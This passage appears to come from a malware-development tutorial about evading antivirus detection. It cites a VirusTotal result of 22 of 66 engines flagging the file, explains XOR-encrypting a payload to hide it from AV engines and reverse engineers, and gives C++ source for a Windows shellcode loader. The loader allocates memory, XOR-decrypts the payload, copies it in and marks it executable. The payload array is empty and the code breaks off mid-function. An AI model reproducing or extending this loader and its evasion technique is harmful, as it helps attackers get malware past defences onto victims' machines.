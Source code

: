 [https://www.virustotal.com/gui/file/c9c49dbbb0a668df053d0ab788f9dde2d9e59c31672b5d296bb1e8309d7e0dfe/detection](https://www.virustotal.com/gui/file/c9c49dbbb0a668df053d0ab788f9dde2d9e59c31672b5d296bb1e8309d7e0dfe/detection)

**So, 22 of of 66 AV engines detect our file as malicious.**

Let's go to try to reduce the number of AV engines that will detect our malware.

For this first we must encrypt our payload. Why we want to encrypt our payload?
The basic purpose of doing this to hide you payload from someone like AV engine or reverse engineer. So that reverse engineer cannot easily identify your payload.

The purpose of encryption is the transform data in order to keep it secret from others.
For simplicity, we use XOR encryption for our case.

Let's take a look at how to use XOR to encrypt and decrypt our payload.

Update our simple malware code:
```cpp
/*
cpp implementation malware example with calc.exe payload encrypted via XOR
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {};
unsigned int my_payload_len = sizeof(my_payload);

// key for XOR decrypt
char my_secret_key[] = "mysupersecretkey";

// decrypt deXOR function
void XOR(char * data, size_t data_len, char * key, size_t key_len) {
    int j;
    j = 0;
    for (int i = 0; i < data_len; i++) {
            if (j == key_len - 1) j = 0;

            data[i] = data[i] ^ key[j];
            j++;
    }
}


int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // Decrypt (DeXOR) the payload
  XOR((char *) my_payload, my_payload_len, my_secret_key, sizeof(my_secret_key));

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

```
